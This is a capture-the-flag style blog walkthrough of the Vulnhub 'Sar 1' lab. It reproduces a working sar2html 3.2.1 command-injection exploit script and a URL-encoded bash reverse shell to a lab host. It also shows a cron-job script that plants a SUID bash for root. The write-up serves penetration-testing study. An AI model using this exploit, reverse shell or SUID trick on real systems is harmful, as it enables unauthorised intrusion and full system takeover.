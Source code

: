 +++
title = "Vulnhub: Sar 1"
date = "2021-05-13"
author = ""
authorTwitter = "ikuamike" #do not include @
cover = "/img/sar1/sar1.png"
tags = ["Beginner", "Vulnhub", "OSCP Prep", "sar2html", "Cron"]
keywords = ["", ""]
description = ""
showFullContent = false
images = ["/img/sar1/sar1.png"]
+++

<!--more-->
{{< image src="/img/sar1/sar1.png" alt="" position="center" style="border-radius: 8px;" >}}

| Difficulty | Release Date | Author |
| ---------- | ------------ | ------ |
| Beginner | 15 Feb 2020 | Love |

# Summary

In this box there's only one port open that is running a vulnerable version of sar2html that
we take advantage of to get a low priv shell. For privilege escalation there was a cron job
running as root that was running a script we could write in.

# Reconnaissance

Nmap

```sh
Nmap scan report for 192.168.56.107
Host is up (0.000040s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
MAC Address: 08:00:27:48:00:F5 (Oracle VirtualBox virtual NIC)
```

# Enumeration

## 80 (HTTP)

Using nmap scripts we see the existence of robots.txt

```sh
Nmap scan report for 192.168.56.107
Host is up (0.00042s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-enum:
|   /robots.txt: Robots file
|_  /phpinfo.php: Possible information file
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```
From this we discover sar2HTML.

{{< image src="/img/sar1/sar1-01.png" alt="" position="center" style="border-radius: 8px;" >}}

Visiting this directory I get the version of sar2html as 3.2.1.

{{< image src="/img/sar1/sar1-02.png" alt="" position="center" style="border-radius: 8px;" >}}

Checking on searchsploit, a remote command execution vulnerability exists for this version.

```sh
searchsploit sar2html
```

{{< image src="/img/sar1/sar1-03.png" alt="" position="center" style="border-radius: 8px;" >}}

# Shell as user

By executing the python script that exploits this RCE vulnerability, we are able to get a reverse shell.

script url: [https://www.exploit-db.com/exploits/49344](https://www.exploit-db.com/exploits/49344)

```
~/Vulnhub/Sar1  python3 49344.py

Enter The url => http://192.168.56.107/sar2HTML/
Command => id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

Command => /bin/bash+-c+'/bin/bash+-i+>%26+/dev/tcp/192.168.56.1/9000+0>%261'
```

{{< image src="/img/sar1/sar1-04.png" alt="" position="center" style="border-radius: 8px;" >}}

Performing some enumeration to achieve some privilege escalation to root or lateral movement to other users
I found a cron job running as root.

{{< image src="/img/sar1/sar1-05.png" alt="" position="center" style="border-radius: 8px;" >}}

While we can't write to this file, the script being executed inside it is writeable.

{{< image src="/img/sar1/sar1-06.png" alt="" position="center" style="border-radius: 8px;" >}}


# Shell as root

By writing into write.sh using vi, we can escalate our privileges.

```
#!/bin/sh

cp /bin/bash /var/www/html/suidbash
chmod u+s /var/www/html/suidbash
```

This will create a copy of the bash binary and add suid permissions to it.

Once the cron job executes and creates the binary we can achieve a root shell and read all the flags.

{{< image src="/img/sar1/sar1-07.png" alt="" position="center" style="border-radius: 8px;" >}}

# Extras

Understanding the exploit script and perform the exploit manually. 

To my surprise, this exploit code was created by a good friend of mine, Musyoka Ian.

```py
# Exploit Title: sar2html 3.2.1 - 'plot' Remote Code Execution
# Date: 27-12-2020
# Exploit Author: Musyoka Ian
# Vendor Homepage:https://github.com/cemtan/sar2html
# Software Link: https://sourceforge.net/projects/sar2html/
# Version: 3.2.1
# Tested on: Ubuntu 18.04.1

#!/usr/bin/env python3

import requests
import re
from cmd import Cmd

url = input("Enter The url => ")

class Terminal(Cmd):
    prompt = "Command => "
    def default(self, args):
        exploiter(args)

def exploiter(cmd):
    global url
    sess = requests.session()
    output = sess.get(f"{url}/index.php?plot=;{cmd}")
    try:
        out = re.findall("<option value=(.*?)>", output.text)
    except:
        print ("Error!!")
    for ouut in out:
        if "There is no defined host..." not in ouut:
            if "null selected" not in ouut:
                if "selected" not in ouut:
                    print (ouut)
    print ()

if __name__ == ("__main__"):
    terminal = Terminal()
    terminal.cmdloop()% 
```

According to the script the vulnerable parameter is plot and simply takes in our command and executes it.

When interacting with the application you can select OS, when you pick one the plot parameter is used.

{{< image src="/img/sar1/sar1-08.png" alt="" position="center" style="border-radius: 8px;" >}}

Here we can inject the command we want and execute shell commands. The OS option doesn't matter, anything after
the semi-colon `;` will be executed. For the reverse shell command remember to url encode special chars like I did
above

{{< image src="/img/sar1/sar1-09.png" alt="" position="center" style="border-radius: 8px;" >}}

Shoutout to Musyoka Ian, you can read his blog linked below. He does cool writeups on challenges as well.

[https://musyokaian.medium.com/](https://musyokaian.medium.com/)
